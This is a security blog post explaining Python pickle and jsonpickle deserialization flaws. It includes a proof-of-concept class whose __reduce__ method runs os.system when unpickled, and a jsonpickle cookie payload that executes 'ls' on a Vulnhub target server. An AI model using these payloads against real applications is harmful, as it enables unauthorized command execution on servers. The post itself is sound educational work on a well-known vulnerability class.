 ```yaml
---
layout: single
title:  "Python Serialization Vulnerabilities"
path: /posts/
date:   2020-05-22
tags: Deserialization python pickle
categories: research
classes: wide
author: komodino
excerpt: "This is a post containing my findings researching python deserialization attack vectors."
header:
  teaser: /assets/images/unserialize/picklerick.png
  teaser_home_page: true

---
```


Insecure Deserialization currently occupies place No.8 on OWASP's Top 10 Vulnerablitiy list for 2017.

To learn more about what deserialization attacks are, check out my write up on the Temple of Doom Vulnhub Box [here](https://pwnokefalos.eu/posts/)

## Introduction
---

In python the default and most popular module for serialization/deserialization is [Pickle](https://docs.python.org/3.8/library/pickle.html).

>The pickle module implements binary protocols for serializing and de-serializing a Python object structure. “Pickling” is the process whereby a Python object hierarchy is converted into a byte stream, and “unpickling” is the inverse operation, whereby a byte stream (from a binary file or bytes-like object) is converted back into an object hierarchy. Pickling (and unpickling) is alternatively known as “serialization”, “marshalling,” 1 or “flattening”; however, to avoid confusion, the terms used here are “pickling” and “unpickling”.

Reading the docs, pickle immediately warns us that we shouldn't really trust user input.

![](/assets/images/unserialize/warnpickle.png)

Let's do some test and play around with pickle. First create an object, then serialize it and save it in the system.

```python
class User:
        user_stats = {}
        def __init__(self,name,age):
                self.user_stats["name"] = name
                self.user_stats["age"] = age

john = User("John",21)

# Write to file - Serialize
with open("user.dat","wb") as f:
        pickle.dump(john,f)

# Load the object from file - Unserialize
with open("user.dat","rb") as f:
        user = pickle.load(f)

print(user.user_stats)
```

This will print `{'name': 'John', 'age': 21}`  

Here we succesfully **serialized** and then **unserialized** the object `john`.

## Vulnerability Analysis

What can possibly go wrong with this?
Reading a bit further in the docs we stumble upon **__reduce__**

>The __reduce__() method takes no argument and shall return either a string or preferably a tuple.
When a tuple is returned, it must be between two and six items long. Optional items can either be omitted, or None can be provided as their value. The semantics of each item are in order:
1. A callable object that will be called to create the initial version of the object.
2. A tuple of arguments for the callable object. An empty tuple must be given if the callable does not accept any argument.<br>
  ...

A healthy use for **__reduce__** would be for providing hints/directives to pickle on how to properly deserialize the object, in case the default automatical way is not enough.

But reading the above citation we conclude that any object that is going to be unserialized and is an instance of a class that has a **__reduce__** method implementation, given the right definintion of **__reduce__**  can immediately execute a callable object during the unserialization phase.

Let's break this down a bit and create another example.
```python
#!/usr/bin/env python3
import pickle
from os import system

class User:

        def __reduce__(self):
                command = "ping -c 3 google.com"  # The command to execute
                
                # As stated in the above docs if __reduce__ returns a tuple the first 
                # tuple element must be a callable object, in this case system. The 
                # second tuple element must be a tuple itself containing the arguments 
                # to the callable object. Upon deserialization this basically corresponds
                # to system(command)
                                                  
                return (system, (command, ))

# Create test object

john = User()

# Write to file - Serialize

with open("user.dat","wb") as f:
        pickle.dump(john,f)

# Load the object from file - Unserialize

with open("user.dat","rb") as f:
        user = pickle.load(f)
```

Running the above script we see

![](/assets/images/unserialize/google_ping.png)

We have command execution!

## Another variation
---

The idea for researching this came to me while solving the **Symfonos4 Vulnhub Box** where you are presented with a website that will deserialize the user cookie.

The cookie looked something like this
`{"py/object": "app.User", "username": "Poseidon"}`

This doesn't really look like standard **pickle** syntax so doing a little research it turns out that it is encoded with **jsonpickle**
>jsonpickle is a Python library for serialization and deserialization of complex Python objects to and from JSON. The standard Python libraries for encoding Python into JSON, such as the stdlib’s json, simplejson, and demjson, can only handle Python primitives that have a direct JSON equivalent (e.g. dicts, lists, strings, ints, etc.). jsonpickle builds on top of these libraries and allows more complex data structures to be serialized to JSON. jsonpickle is highly configurable and extendable–allowing the user to choose the JSON backend and add additional backends.

What will happen is the app will take the **jsonpickled** cookie and deserialize it. In this case convert it from JSON to a normal python object. This library also has a **reduce** method and we can construct a payload with
`{"py/object": "__main__.Shell", "py/reduce": [{"py/function": "os.system"}, ["ls"], 0, 0, 0]}`

This will execute `ls` on the remote server.

### Conclusion
---

**Never trust user input.**

### Useful links and References
---

[BlackHat 2011 - Sour Pickles, A serialised exploitation guide in one part](https://www.youtube.com/watch?v=HsZWFMKsM08)

[jsonpickle exploitation](https://versprite.com/blog/application-security/into-the-jar-jsonpickle-exploitation/)


